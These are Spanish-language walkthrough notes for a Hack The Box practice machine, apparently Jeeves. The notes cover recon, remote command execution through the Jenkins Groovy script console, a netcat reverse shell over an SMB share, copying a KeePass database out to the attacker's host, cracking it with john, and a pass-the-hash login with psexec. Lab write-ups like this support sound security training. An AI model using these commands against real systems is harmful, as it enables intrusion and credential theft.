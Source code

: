 ## Summary

- IP -> 10.10.10.63
- Ports -> TCP (80,135,445,5000), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 80 -> 
    - 135 -> 
    - 445 ->
    - 5000 ->

## Recon 
- Comando -> **Whatweb < http:// IP Address>** = Microsoft IIS 10.0
- Comando -> **Whatweb < http:// IP Address> -v** Miramos las cabeceras de la pagina web
- Comando -> **curl -s -X GET "http://< IP>" -I** Miramos las cabeceras de la pagina web (I=i mayuscula,s=silence)
- Comando -> **crackmapexec smb {ip_targeted}** Para listar recursos compartidos de Windows
- Comando -> **smbclient -L < IP TARGET> -N** Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
- Comando -> **smbmap -H** **{ip_targeted}** Herramienta elternativa para ver si nos reporta algo mas
- Comando -> **smbmap -H** **{ip_targeted} -u 'null'** Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)

Webpage -> < IP> and < IP:5000>

- Comando -> **wfuzz -c --hc=404 -t 200 -w < RUTA DICCIONARIO> < http:// URL:PORT/FUZZ/>** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con un diccionario especifico, y el diccionario se aplicara en la palabra FUZZ (c=colorizado, w=wordlist, hc=hidecode, hh=hide characters ch en caso que sea necesario, t=tareas simultaneas). Es importante poner el nombre de la url, ya que muchas veces con la pura IP no encuentra nada. 
	**/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 

Descubrimos una nuerva ruta. 
Ahora toca investigar Jenkins:
	Que es?
	Para que sirve?

El error en la web de Jenkins es que te salga la opcion: **Administrar Jenkins**
	- Ir a consola de Scripts
	- Puedes crear un script en Groovy (Groovy execute shell command)
		println "whoami".execute().text

- Comando -> **locate nc.exe**
- Comando -> **updatedb**


## User
Webpage 
	- Puedes crear un script en Groovy (Groovy execute shell command)
		- **println "\\\\10.10.14.17\\smbFolder\\nc.exe -e cmd 10.10.14.17 443".execute().text** Vamos a crear un recurso compartido smb con nuestra maquina para compartir el nc.exe y despues hacer que cuando lo ejecute nos regrese una consola interactiva por el puerto 443

- Comando -> **impacket-server < FOLDERNAME> $(pwd) -smb2support** Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
- Comando -> **rlwrap nc -nlcp 443** Nos ponemos en escucha por el puerto 443 (Podemos hacer **Ctrl + l**, sin poder hacer **Ctrl + c**) maquinas Windows

nota: Si nos marca un error al moento de ejecutar la parte de la pagina web, debemos de escapar las barras agregando otra barra **\\**

- Comando-> **dir /r /s user.txt** Para buscar un archivo dentro de Windows, nos regresa la ruta en donde se encuentra

## Root

#### 1ra parte para convertirse en root:
En **C:\\Users\\kohsuke\\Documents** Encontramos un archivo con extencion **.kdbx** 

**copy CEH.kdbx \\\\10.10.14.17\\smbFolder\\CEH.kdbx** Copiamos un archivo de la maquina victima a nuestra maquina de atacante
		- CEH.kdbx -> Nombre dek archivo que nos queremos copiar de la maquina victima
		- 10.10.14.17 -> Nuestra direccion IP
		- smbFolder -> Nombre de la carpeta del recurso compartido 

- Comando -> **file < FILE>** Nos muestra que tipo de archivo es por los magic numbers, y asi saber que es un keepass

- Comando -> **keepassxc CEH.kdbx** Nos permite abrir el archivo keepass teniendo la passwd, de lo contrario hacemos lo siguiente
- Comando -> **keepass2john CEH.kdbx > hash** Si no sabemos la passwd, esto no sayuda a extraer un hash para poder hacer fuerza bruta
- Comando -> **john --wordlist=/usr/share/wordlists/rockyou.txt hash** Aplicamos un ataque de fuerza bruta a un archivo hash

Obtenemos otro hash pero de la herramienta Keepass, por lo que podriamos hacer un 'Pass the hash'
- Comando -> **crackmapexec smb < IP TARGET> -u <‘Administrator’> -H <‘HASH’>** Con este comando verificamos que el usuario y su hash son validos y si es asi nos pondra un [+] Pwn3d!.
- Comando -> **psexec.py WORKGROUP/Administrator@< IP> -hashes <'HASH'>** Podremos ganar acceso al sistema y nos lanzara una cmd ya que estariamos haciendo un Pass de Hash 

Y seriamos nt authority\\System

ADS Alternate Data Strings 
	Comando -> **dir /r /s** Para listar informacion oculta
	Comando -> **more < hm.txt:root.txt** Miramos el contenido de un archivo oculto 


#### 2da parte para convertirse en root
1:29:00 Video para la segunda parte